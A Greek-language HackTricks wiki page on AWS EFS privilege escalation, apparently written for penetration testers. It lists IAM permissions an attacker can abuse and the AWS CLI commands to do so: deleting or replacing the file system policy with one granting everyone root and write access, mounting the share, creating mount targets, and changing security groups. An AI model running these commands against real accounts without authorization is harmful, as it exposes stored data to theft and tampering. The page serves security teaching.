 # AWS - EFS Εscalation Δικαιωμάτων

{% hint style="success" %}
Μάθετε & εξασκηθείτε στο Hacking του AWS:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**Εκπαίδευση HackTricks AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Μάθετε & εξασκηθείτε στο Hacking του GCP: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**Εκπαίδευση HackTricks GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Υποστηρίξτε το HackTricks</summary>

* Ελέγξτε τα [**σχέδια συνδρομής**](https://github.com/sponsors/carlospolop)!
* **Εγγραφείτε** στην 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στην [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Κοινοποιήστε κόλπα χάκερ κάνοντας υποβολή PRs** στα αποθετήρια [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
{% endhint %}

## EFS

Περισσότερες **πληροφορίες σχετικά με το EFS** σε:

{% content-ref url="../aws-services/aws-efs-enum.md" %}
[aws-efs-enum.md](../aws-services/aws-efs-enum.md)
{% endcontent-ref %}

Θυμηθείτε ότι για να προσαρτήσετε ένα EFS πρέπει να βρίσκεστε σε ένα υποδίκτυο όπου το EFS είναι προσβάσιμο και να έχετε πρόσβαση σε αυτό (ομάδες ασφαλείας). Αν συμβαίνει αυτό, από προεπιλογή θα μπορείτε πάντα να το προσαρτήσετε, ωστόσο, αν προστατεύεται με πολιτικές IAM, πρέπει να έχετε τα επιπλέον δικαιώματα που αναφέρονται εδώ για να έχετε πρόσβαση σε αυτό.

### `elasticfilesystem:DeleteFileSystemPolicy`|`elasticfilesystem:PutFileSystemPolicy`

Με οποιοδήποτε από αυτά τα δικαιώματα ένας επιτιθέμενος μπορεί να **αλλάξει την πολιτική του συστήματος αρχείων** για να **σας δώσει πρόσβαση** σε αυτό, ή απλά να το **διαγράψει** έτσι ώστε να χορηγείται η **προεπιλεγμένη πρόσβαση**.

Για να διαγράψετε την πολιτική:
```bash
aws efs delete-file-system-policy \
--file-system-id <value>
```
Για να το αλλάξετε:
```json
aws efs put-file-system-policy --file-system-id <fs-id> --policy file:///tmp/policy.json

// Give everyone trying to mount it read, write and root access
// policy.json:
{
"Version": "2012-10-17",
"Id": "efs-policy-wizard-059944c6-35e7-4ba0-8e40-6f05302d5763",
"Statement": [
{
"Sid": "efs-statement-2161b2bd-7c59-49d7-9fee-6ea8903e6603",
"Effect": "Allow",
"Principal": {
"AWS": "*"
},
"Action": [
"elasticfilesystem:ClientRootAccess",
"elasticfilesystem:ClientWrite",
"elasticfilesystem:ClientMount"
],
"Condition": {
"Bool": {
"elasticfilesystem:AccessedViaMountTarget": "true"
}
}
}
]
}
```
### `elasticfilesystem:ClientMount|(elasticfilesystem:ClientRootAccess)|(elasticfilesystem:ClientWrite)`

Με αυτήν την άδεια, ένας επιτιθέμενος θα μπορεί να **τοποθετήσει σε λειτουργία το EFS**. Αν η άδεια εγγραφής δεν δίνεται από προεπιλογή σε όλους όσους μπορούν να τοποθετήσουν σε λειτουργία το EFS, τότε θα έχει μόνο **πρόσβαση ανάγνωσης**.
```bash
sudo mkdir /efs
sudo mount -t efs -o tls,iam  <file-system-id/EFS DNS name>:/ /efs/
```
Οι επιπλέον άδειες `elasticfilesystem:ClientRootAccess` και `elasticfilesystem:ClientWrite` μπορούν να χρησιμοποιηθούν για **εγγραφή** μέσα στο σύστημα αρχείων μετά την προσάρτησή του και για **πρόσβαση** σε αυτό το σύστημα αρχείων **ως ριζοχρήστης**.

**Πιθανή Επίπτωση:** Έμμεση αύξηση προνομίων εντοπίζοντας ευαίσθητες πληροφορίες στο σύστημα αρχείων.

### `elasticfilesystem:CreateMountTarget`

Αν ένας επιτιθέμενος βρίσκεται μέσα σε ένα **υποδίκτυο** όπου δεν υπάρχει **σημείο προσάρτησης** του EFS, μπορεί απλά να **δημιουργήσει ένα στο δικό του υποδίκτυο** με αυτό το προνόμιο:
```bash
# You need to indicate security groups that will grant the user access to port 2049
aws efs create-mount-target --file-system-id <fs-id> \
--subnet-id <value> \
--security-groups <value>
```
**Πιθανή Επίδραση:** Έμμεση ανύψωση προνομίων με τον εντοπισμό ευαίσθητων πληροφοριών στο σύστημα αρχείων.

### `elasticfilesystem:ModifyMountTargetSecurityGroups`

Σε ένα σενάριο όπου ένας επιτιθέμενος ανακαλύπτει ότι το EFS έχει σημείο προσάρτησης στο δίκτυό του αλλά **κανένα security group δεν επιτρέπει την κίνηση**, απλά μπορεί **να αλλάξει αυτό τροποποιώντας τα επιλεγμένα security groups**:
```bash
aws efs modify-mount-target-security-groups \
--mount-target-id <value> \
--security-groups <value>
```
**Πιθανή Επίδραση:** Έμμεση ανύψωση προνομίων με τον εντοπισμό ευαίσθητων πληροφοριών στο σύστημα αρχείων.

{% hint style="success" %}
Μάθετε & εξασκηθείτε στο Hacking του AWS:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**Εκπαίδευση HackTricks AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Μάθετε & εξασκηθείτε στο Hacking του GCP: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**Εκπαίδευση HackTricks GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Υποστηρίξτε το HackTricks</summary>

* Ελέγξτε τα [**σχέδια συνδρομής**](https://github.com/sponsors/carlospolop)!
* **Συμμετέχετε** 💬 στην [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στην [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Κοινοποιήστε κόλπα χάκινγκ υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) αποθετήρια στο GitHub.

</details>
{% endhint %}
